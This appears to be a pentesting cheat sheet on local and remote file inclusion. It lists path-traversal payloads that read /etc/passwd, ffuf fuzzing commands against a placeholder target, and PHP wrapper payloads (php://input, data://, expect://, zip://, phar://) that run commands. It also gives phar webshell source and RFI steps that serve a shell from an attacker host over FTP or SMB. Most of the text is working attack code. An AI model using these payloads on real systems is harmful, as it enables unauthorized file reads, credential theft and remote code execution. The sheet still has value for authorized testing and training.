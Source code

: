 # Local file inclusion

- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion)
- [Liffy](https://github.com/mzfr/liffy)
- [LFISuite](https://github.com/D35m0nd142/LFISuite)
- [LFiFreak](https://github.com/OsandaMalith/LFiFreak)

## Tips
 - Try URL encoding
 - Try bypassing regex by prefixing the LFI with the approved path
 - Add ~2048 times the `/.` string at the end of the URL
    -  `echo -n "../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done`
 - Try to inject null bytes `%00` to bypass extension checking (for old frameworks)
 - `/proc/<n>/root` is loopable like `/proc/18/root/proc/18/root/proc/18/root/etc/passwd`
 - If the url is built from query string params, try specifying multiple times the same param.
 - Mess with `%0D` and `%0A`
  
If LFI works but is read only, look for credentials like ssh keys.

## Wordlists

### Detection
```
seclists/Discovery/Web-Content/burp-parameter-names.txt
```

### Exploitation
```
seclists/Fuzzing/LFI/LFI-Jhaddix.txt
seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
seclists/Discovery/Web-Content/default-web-root-directory-windows.txt
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
```

### Fuzz snippets
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://<target>/index.php?FUZZ=value' -fs 1234
```
```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://<target>/index.php?someField=FUZZ' -fs 1234
```
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt -u 'http://<target>/index.php?someField=../../../../FUZZ/index.php' -fs 1234
```
```bash
ffuf -w ./LFI-WordList-Linux -u 'http://<target>/index.php?someField=../../../../FUZZ' -fs 1234
```

## Snippets
```bash
../../../../../../../etc/passwd
```
```bash
/../../../../../../../etc/passwd
```
```bash
..\/..\/..\/..\/..\/..\/..\/etc/passwd
```
```bash
....//....//....//....//....//....//....//etc/passwd
```
```bash
....////....////....////....////....////....////....////etc/passwd
```
```bash
....\/....\/....\/....\/....\/....\/....\/etc/passwd
```
```bash
..././..././..././..././..././..././etc/passwd
```

## PHP 
### RFI
If `allow_url_include = On`

First try to include a local file with something like `http://127.0.0.1:80/index.php`

Then try to serve on a http server a webshell and fetch it with the RFI

FTP is also worth trying, host a local server with `sudo python -m pyftpdlib -p 21` and query it with `ftp://<attacker-ip>/shelle.php&0=id` or `ftp://user:pass@<attacker-ip>/shelle.php&0=id`

Or with SMB `impacket-smbserver -smb2support share $(pwd)` with `\\<attacker-ip>\share\shell.php&0=whoami`

### base64 filter wrapper
```
php://filter/read=convert.base64-encode/resource=<page-to-load>
```

### data wrapper
```
data://text/plain;base64,PD89YCRfR0VUWzBdYD8+&0=id
```
#### allow_url_include 
Look for config
```
php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/apache2/php.ini
```

### input wrapper
As a POST request
```
curl -s -X POST --data '<?=`$_GET[0]`?>' "http://<target>/...?something=php://input&0=id
```
```
curl -s -X POST --data '<\?php system('id')?>' "http://<target>/...?something=php://input
```

### expect wrapper
if enabled `extension=expect`

Use this directly in the LFI `expect://id`

### zip wrapper
```
zip://./<path>/archive.jpg%23shelle.php&0=id
```

### phar wrapper

Create a webshell
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?=`$_GET[0]`?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering()
```
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
```
phar://./<path>/shell.jpg%2Fshell.txt&0=id
```